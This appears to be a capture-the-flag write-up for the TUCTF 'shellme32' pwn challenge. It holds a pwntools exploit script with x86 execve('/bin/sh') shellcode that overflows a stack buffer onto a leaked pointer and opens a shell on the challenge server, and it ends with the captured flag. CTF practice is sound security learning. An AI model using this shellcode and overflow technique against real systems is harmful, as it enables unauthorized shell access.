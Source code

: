 # shellme32

## PWN - Points: 500

> One small step for hacker's, one giant leap for pwning kind.
>
> 
>
> nc chal.tuctf.com 30506
>
> [shellme32](shellme32)
>

Find x86 shellcode.

Exploit script:

```python
from pwn import *


shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# context.terminal = ['termite', '-e']
# p = gdb.debug('./shellme32')
# p = process('shellme32')
p = remote('chal.tuctf.com', 30506)

print p.recvline()
pointer = int(p.recvline()[:-1], 16)
print hex(pointer)

p.sendlineafter('> ', shellcode + 'A' * (40 - len(shellcode)) + p32(pointer))
p.interactive()
```

flag: `TUCTF{4www..._b4by5_f1r57_3xpl017._h0w_cu73}`